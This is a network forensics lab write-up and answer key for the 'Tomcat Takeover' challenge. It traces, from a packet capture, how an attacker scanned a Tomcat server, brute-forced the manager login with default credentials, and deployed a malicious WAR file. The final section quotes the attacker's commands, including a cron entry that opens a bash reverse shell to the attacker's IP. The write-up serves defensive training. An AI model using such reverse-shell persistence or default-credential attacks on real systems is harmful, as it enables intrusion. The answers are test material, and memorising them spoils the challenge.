 # Tomcat Takeover

## Info

- Category : Network Forensics
- SHA1SUM : 56cc3f2aed9beb326eec027ae5dc9971a37da57d
- Published : Sept. 15, 2023, 4 p.m.
- Author : Chadou
- Size : 459 KB
- Tags : Wireshark PCAP Tomcat Network NetworkMiner
- Password : cyberdefenders.org

### Scenario

Our SOC team has detected suspicious activity on one of the web servers within the company's intranet. In order to gain a deeper understanding of the situation, the team has captured network traffic for analysis. This pcap file potentially contains a series of malicious activities that have resulted in the compromise of the Apache Tomcat web server. We need to investigate this incident further.

### Helpful Tools

- Wireshark
- NetworkMiner

---

## Questions

### Q1 - Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?

`Statistics > IPv4 statistics > Destination and Ports`

We see 2 IP with lot of connection to many ports. Second clue, we also see many SYN and RST requests which is suspicious.

**Answer : 14.0.0.120**

### Q2 - Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated?

https://www.whois.com/whois/14.0.0.120

**Answer : Guangzhou**

### Q3 - From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel?

Do a filter `ip.addr == 14.0.0.120` and search on wireshark for a request made on an endpoint which contain `admin`. You will find `admin` & `admin-console` endpoints. Get the port of those requests.

**Answer : 8080**

### Q4 - Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?

`User-Agent: gobuster/3.6`

**Answer : gobuster**

### Q5 - Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover?

Look for a request made on `/admin` (stream 9449), `follow the HTTP stream `and you will get multiple request on a folder.

**Answer : /manager**

### Q6 - Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization?

Filter : `ip.addr == 14.0.0.120 and http.request.method == "POST"`. In the `Authorization` section : `Authorization: Basic YWRtaW46dG9tY2F0`

```shell
echo 'YWRtaW46dG9tY2F0' | base64 -d
admin:tomcat
```

Or it's just print in wireshark.

**Answer : admin:tomcat**

### Q7 - Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?

In the same packet, the endpoint is `/manager/html/upload`. Look into `the MIME section`.

`Content-Disposition: form-data; name="deployWar"; filename="JXQOZY.war"`

**Answer : JXQOZY.war**

### Q8 - Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?

We notice a request on `/JXQOZY`. The following stream contains commands and the command used to establish persistence.

```shell
whoami
root
cd /tmp
pwd
/tmp
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'" > cron
crontab -i cron

crontab -l
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
```

**Answer : /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'**